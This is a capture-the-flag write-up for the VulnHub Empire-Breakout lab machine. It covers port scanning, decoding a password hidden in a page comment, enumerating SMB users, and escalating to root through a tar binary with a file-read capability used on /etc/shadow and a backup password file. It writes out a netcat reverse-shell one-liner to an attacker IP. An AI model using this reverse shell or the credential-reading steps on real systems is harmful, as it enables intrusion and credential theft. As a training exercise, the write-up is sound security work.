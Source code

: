 ```yaml
---
layout: post
title: VulnHub Empire-Breakout Writeup
categories: VulnHub Machines
permalink: /vulnhub/empire-breakout
---
```



Machine: [https://www.vulnhub.com/entry/empire-breakout,751/](https://www.vulnhub.com/entry/empire-breakout,751/)
Machine Author: [icex64 & Empire Cybersecurity](https://www.vulnhub.com/author/icex64-empire-cybersecurity,821/)

## Nmap

```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-09 02:53 UTC
Nmap scan report for 192.168.56.135
Host is up (0.00092s latency).
Not shown: 65530 closed tcp ports (reset)
PORT      STATE SERVICE     VERSION
80/tcp    open  http        Apache httpd 2.4.51 ((Debian))
|_http-server-header: Apache/2.4.51 (Debian)
|_http-title: Apache2 Debian Default Page: It works
139/tcp   open  netbios-ssn Samba smbd 4.6.2
445/tcp   open  netbios-ssn Samba smbd 4.6.2
10000/tcp open  http        MiniServ 1.981 (Webmin httpd)
|_http-title: 200 &mdash; Document follows
20000/tcp open  http        MiniServ 1.830 (Webmin httpd)
|_http-title: 200 &mdash; Document follows
MAC Address: 08:00:27:A2:1E:2A (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop

Host script results:
| smb2-time: 
|   date: 2025-01-09T02:53:44
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: -2s
|_nbstat: NetBIOS name: BREAKOUT, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

TRACEROUTE
HOP RTT     ADDRESS
1   0.92 ms 192.168.56.135

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 46.84 seconds
```

## Port 80

![image1](https://github.com/user-attachments/assets/bd17d2ef-e799-4ea5-a5de-bad5e810d366)


We are greeted with the apache2 default page. Nothing too special on the page. Let’s look at the source code to see if we find anything.

### Source Code

```html
<!--
don't worry no one will get here, it's safe to share with you my access. Its encrypted :)

++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>++++++++++++++++.++++.>>+++++++++++++++++.----.<++++++++++.-----------.>-----------.++++.<<+.>-.--------.++++++++++++++++++++.<------------.>>---------.<<++++++.++++++.

-->
```

We can find the above comment hidden within the source code of the page. The weird looking string is encoded using the Brainf**k cipher. Decoding it we get the below string

```bash
.2uqPEfj3D<P'a-3
```

It seems this could be a password to an account. Let’s visit the other ports where we saw MiniServ running.

## Port 10000

![2](https://github.com/user-attachments/assets/033a6325-8e57-4b01-abd9-3563a2ccbd6f)


We are greeted with a login page. We can try to login with the password we obtained earlier. Using admin as the user with the password doesn’t work. This means that we need to look for a valid username.

If we look back at the nmap scan we can see that smb is running. We can use enum4linux to find valid users

## enum4linux

```bash
enum4linux -r 192.168.56.135
Starting enum4linux v0.9.1 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Thu Jan  9 03:10:36 2025

 =========================================( Target Information )=========================================
                                                                                                                                                                                                                                            
Target ........... 192.168.56.135                                                                                                                                                                                                           
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none

<SNIP>                                                                                                                                                                        

[+] Enumerating users using SID S-1-22-1 and logon username '', password ''                                                                                                                                                                 
                                                                                                                                                                                                                                            
S-1-22-1-1000 Unix User\cyber (Local User)                                                                                                                                                                                                  

<SNIP>

enum4linux complete on Thu Jan  9 03:10:49 2025
```

We can see that there is a local user with the username cyber. Let’s try using that as our username on the Webmin login page.

![3](https://github.com/user-attachments/assets/8275438b-88ba-4f0b-80f9-0b35da20197d)


Well, that didn’t work. There is another service Usermin running on port 20000. We can check to see if the credentials work there.

![4](https://github.com/user-attachments/assets/95f7ce8d-5992-4189-9365-8eb3cf20fe7d)


And there we go, we are now logged in onto Usermin. We can now use the inbuilt terminal to run commands on the server.

![5](https://github.com/user-attachments/assets/2fac5282-770c-41d3-9c56-b40366344a92)


Let us get a more interactive shell by using netcat.

```bash
[cyber@breakout ~]$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.56.103 4242 >/tmp/f
```

![6](https://github.com/user-attachments/assets/5c5c8360-deb2-49c3-bc68-6a87da642b3b)


After getting a more interactive shell using python, we get the user.txt file.

Now time to escalate the privileges.

## Priv Esc

We can see that there is a binary for the tar program there. Which is likely our way to root.

![7](https://github.com/user-attachments/assets/4e44aa5b-bc81-44ce-a927-d46c094eb2d1)


My first thought was that maybe we have sudo as root on the tar binary. But sudo was disabled so we can’t do that.

We can use getcap to see what capabilities the binary has.

![9](https://github.com/user-attachments/assets/bc0bd0f1-c59b-435a-ab26-c15683ef1bfc)


The cap_dac_read_search capability allows us to bypass file read permissions.

We can try and see if we can read the /etc/shadow file.

![10](https://github.com/user-attachments/assets/fcd09e0a-03dd-4426-b0d3-97473c9f9a39)


And sure enough we can.

We can try and crack the hashes offline, but considering the password for cyber was complex, we should check to see if we have any other way.

Since we can read any file as root, we can look for interesting files owned by root in any of the usual places such as /var/backup or /opt.

![11](https://github.com/user-attachments/assets/fc7ac7d8-21e2-4950-8e56-79c736f14f7e)


Looking at /var/backup we can see a .old_pass.bak file which is readable only by root.

Let’s use out tar binary to read this file.

![12](https://github.com/user-attachments/assets/7775db6b-c588-418b-825a-0807ce461d86)


We seem to get a complex looking password.

Let’s try to su to root using this pass.

![13](https://github.com/user-attachments/assets/46e2d85e-986e-4b22-b607-195993c8424f)


And there we go, we finally have root

![14](https://github.com/user-attachments/assets/b4681ba9-e7c7-481b-b147-3fb6bb338079)
